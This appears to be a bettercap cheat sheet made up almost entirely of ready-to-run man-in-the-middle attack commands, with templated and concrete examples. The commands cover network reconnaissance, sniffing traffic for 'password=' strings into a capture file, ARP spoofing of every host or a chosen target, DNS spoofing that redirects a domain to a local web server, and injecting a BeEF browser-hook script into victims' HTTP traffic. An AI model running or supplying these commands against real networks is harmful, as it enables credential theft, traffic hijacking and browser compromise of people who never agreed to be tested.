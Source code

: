## GUI

Install GUI:

	sudo bettercap -eval "caplets.update; ui.update; q"

Execute:

	sudo bettercap -caplet http-ui -gateway-override %Variable%Gateway% -iface %Variable%Interface%

	sudo bettercap -caplet http-ui 192.168.0.1 -iface en0

## Mac OS

Open bettercap: (configure the gateway and the interface for Mac OS)

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface%

	sudo bettercap -gateway-override 192.168.0.1 -iface en0

## Scan networks

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'net.recon on;net.probe on;clear;ticker on;'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'net.recon on;net.probe on;clear;ticker on;'

## Active sniffing (interactive)

	set net.sniff.regexp %Variable%RegEx%;

	set net.sniff.regexp .*password=.+;

	set net.sniff.output passwords.pcap;
	net.sniff on;

## ARP spoofing

Spoof all the hosts: (be careful on big network)

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;arp.spoof on;'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;arp.spoof on;'

Spoof a specific host:

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets %Variable%RHOST%;arp.spoof on;'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;'

## DNS Spoofing

Spoof all the hosts: (be careful on big network)

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;arp.spoof on;set dns.spoof.domains %Variable%Domain%;set dns.spoof.all true;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;arp.spoof on;set dns.spoof.domains apache.com;set dns.spoof.all true;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

Spoof a specific host:

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets %Variable%RHOST%;arp.spoof on;set dns.spoof.domains %Variable%Domain%;set dns.spoof.address %Variable%LHOST%;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;set dns.spoof.domains apache.com;set dns.spoof.address 192.168.0.116;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

## Script injection

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets %Variable%RHOST%;arp.spoof on;set http.proxy.script /Library/WebServer/Documents/bettercap/%Variable%Script%;set http.proxy.blacklist *;set http.proxy.whitelist %Variable%Domain%;http.proxy on'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;set http.proxy.script /Library/WebServer/Documents/bettercap/beef.js;set http.proxy.blacklist *;set http.proxy.whitelist apache.com;http.proxy on'